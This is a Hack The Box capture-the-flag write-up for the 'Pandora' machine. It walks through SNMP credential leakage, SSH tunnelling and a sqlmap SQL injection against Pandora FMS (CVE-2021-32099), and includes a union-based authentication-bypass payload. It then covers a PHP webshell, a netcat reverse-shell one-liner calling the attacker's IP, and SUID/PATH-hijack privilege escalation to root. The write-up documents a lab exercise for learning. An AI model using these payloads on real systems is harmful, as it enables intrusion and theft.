

# Hack The Box - Pandora [Easy]

## Scanning the Box

We first scan the box using nmap to find anything interesting

```bash
nmap -sV -sC 10.10.11.136
```


We find that there is a SSH and Apache services running

Let's try going to the website


Nothing interesting.
Found an input field but it is just a simple GET request and all JS files looked normal.
Subdomain fuzzing also didn't work.

Let's further scan for services, this time maybe UDP will return something

```bash
nmap -sU -v 10.10.11.136
```


After waiting a little moment, nmap found an open port 161 on UDP. [Quick search](https://www.speedguide.net/port.php?port=161) reveals that it is a SNMP service. 

## SNMP and SNMP Enumeration
SNMP is a protocol for collecting and organising information about managed devices on IP networks. They store the information in the Management Information Base (MIB), and when the SNMP Manager queries the SNMP agent, data is taken from this MIB and sent to the SNMP Manager where it can be viewed with network monitoring tool. 

[Tools](../../../tools.md) page includes an example usage, and we are going to use just that:

```bash
htbip=10.10.11.136 # Store it for further use
snmpwalk -v1 -c public $htbip
```


Alright the output is humongous to we are strong all this output into a text file for later analysis:

```bash
snmpwalk -v1 -c public $htbip > snmpdump.txt
```

After analysis, we find information that might become useful:

```
iso.3.6.1.2.1.25.4.2.1.5.785 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.799 = STRING: "--foreground"
iso.3.6.1.2.1.25.4.2.1.5.804 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
iso.3.6.1.2.1.25.4.2.1.5.805 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.807 = ""
iso.3.6.1.2.1.25.4.2.1.5.808 = ""
iso.3.6.1.2.1.25.4.2.1.5.841 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.843 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.851 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.863 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.865 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.869 = ""
iso.3.6.1.2.1.25.4.2.1.5.880 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.944 = STRING: "--no-debug"
iso.3.6.1.2.1.25.4.2.1.5.984 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.986 = ""
iso.3.6.1.2.1.25.4.2.1.5.1121 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.1231 = ""
iso.3.6.1.2.1.25.4.2.1.5.3145 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.3914 = ""
iso.3.6.1.2.1.25.4.2.1.5.4100 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.4376 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.4643 = ""
iso.3.6.1.2.1.25.4.2.1.5.4659 = STRING: "--user"
iso.3.6.1.2.1.25.4.2.1.5.4661 = ""
iso.3.6.1.2.1.25.4.2.1.5.4787 = ""
iso.3.6.1.2.1.25.4.2.1.5.4794 = ""
iso.3.6.1.2.1.25.4.2.1.5.4824 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.5138 = STRING: "/var/www/pandora/pandora_console/index.php"
iso.3.6.1.2.1.25.4.2.1.5.7781 = ""
iso.3.6.1.2.1.25.4.2.1.5.9187 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.26040 = STRING: "/usr/share/php/DB/storage.php"
```

We have the credentials:

```
daniel <- username
HotelBabylon23 <- password
```

## SSH

Remember we found an SSH service during the initial scan of the box? Let's try connecting to it with the credentials we've just obtained.


We're in!

But poking around didn't reveal any flags, which means we need to do a privilege escalation.

## Privilege Escalation

We saw from the SNMP dump that there is a directory ``` /var/www/pandora/``` in the apache's folder. Unfortunately, this folder is not exposed to the public because currently, the apache is serving the webpages from the ``` /var/www/html``` directory (I assume)

So we need to somehow access this page.

We can do this by tunneling into this machine and pretend as if we are local.
To verify, I tried accessing the pandora_console as a local client

```bash
curl http://localhost/pandora_console/
```


It returned something and it is not an error so this confirms that this page is accessible from the local network.

### Dynamical Tunneling
One of the ways to solve this is through dynamic tunneling.

To setup a dynamic tunnel:
```bash
ssh -D 9999 daniel@$htbip
```

and we will configure Firefox's proxy to use this tunnel. Foxy Proxy is a great extension for this.


After configuring the proxy and connecting to it, we can navigate to the pandora_console in localhost:


[Quick search in Google about Pandora FMS reveals that there is a critical vulnerability in Pandora FMS](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) so we'll try using this exploit for our attack.

### Exploitation of Pandora FMS

CVE-2021-32099 states that there is an unauthenticated SQL injection vulnerability in this software.
And the [blog post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) explains that it is located in the `chart_generator.php` 's `sessions_id parameter

Before we run `sqlmap`, we need to use a tool called `proxychain` to route the `sqlmap` traffic through the proxy tunnel to perform the attack.

After installing `proxychain` using `sudo apt-get install proxychains`, we will configure the file located at `/etc/proxychains`.

Add line `socks5 127.0.0.1 9999 daniel HotelBabylon23`

Then run `sqlmap` through `proxychains`:

```bash
proxychains sqlmap --url="[http://localhost/pandora_console/include/chart_generator.php?session_id=](http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=)''" -D pandora --tables
```


`tpassword_history` sounds interesting... Let's dump it

```bash
proxychains sqlmap --url="http://localhost/pandora_console/include/chart_generator.php?session_id=''" -D pandora -T tpassword_history --dump
```


There was also a `tsessions_php` table which seemingly stored the session data, which could be used to used to impersonate a user according to the blog post.


So with this `session_id`, we can try bypassing the authentication using the URL string with the `session_id` variable passed into the `chart_generator.php` file.

To bypass authentication as matt:
```
http://localhost/pandora_console/include/chart_generator.php?session_id=g4e01qdgk36mfdh90hvcc54umq
```

Then locate back to `localhost/pandora_console` (just realised `localhost.localdomain` also works)


We're authenticated as matt!

But how do I get the flag? 

According to this CVE, there is a potential RCE exploit that we can use, [quick google search leads to this tool](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated).

By looking at the code, it is an SQL injection in the `session_id` parameter.

So we're going to paste the exploit URL into the browser:
```
http://localhost/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data -- SgGO
```

Which when properly encoded becomes:

```
http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```

Now if you go back to the `pandora_console` page...


We're now authenticated as admin. I'm just going to change the admin password in case I need to authenticate again in case.

I attempted uploading PHP reverse shells but it did not work, however the simple webshell like the one below worked:

`webshell.php`:
```html
<html>
 
	<body>
 
		<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
		 
		<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
		 
		<input type="SUBMIT" value="Execute">
		 
		</form>
		 
		<pre>
		 
			<?php
			 
			if(isset($_GET['cmd'])) {
			 
				system($_GET['cmd']);
			 
			}
			 
			?>
		 
		</pre>
 
	</body>
 
</html>
```

They just had a file manager so I just uploaded the exploit and see if I were able to browse it

After some digging around, there was a directory called `/images` where you can view all the uploaded files, I located the `webshell.php` and opened it:


There are different ways to get a reverse shell from this webshell, but I've used the following command:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4444 >/tmp/f
```

And listened on the local machine:
```bash
nc -nvlp 4444
```


And we have a shell on our local machine.

Checking `sudo` returns a weird error
```
$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

So let's try to do the most basic Linux privilege escalation technique to break out of this restricted shell - using SUID binaries

We can simply find SUID binaries in the system using the following command:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Which returns the following:


`/usr/bin/pandora_backup` sounds interesting, also searching these binaries in [GTFOBins](https://gtfobins.github.io/) revealed that `/usr/bin/at` can potentially be used to break out of this restricted shell.

Upgrade to Bash first
```sh
SHELL=/bin/bash script -q /dev/null
```
or
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We use the command provided by [GTFOBins](https://gtfobins.github.io/gtfobins/at/):
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

You may have to upgrade the shell again, but you should now have a working `sudo`.

We now want to look at `pandora_backup` binary. Because there were no tools installed on the victim machine to analyse this binary, I downloaded the binary onto the local machine to analyse. Because I already know that we can freely browse the `/images` directory, why not just copy it there and download it from a user friendly web interface:

```bash
cp /usr/bin/pandora_backup /var/www/pandora/pandora_console/images/pandora_backup
```




So it looks like it uses tar to pack the contents of `pandora_console` into a tar archive, so we can potentially poison the tar PATH to make it execute something different.

```bash
cd /tmp
echo "bin/bash" > tar
chmod 777 tar
export PATH=/tmp:$PATH
pandora_backup
```


We are now root!

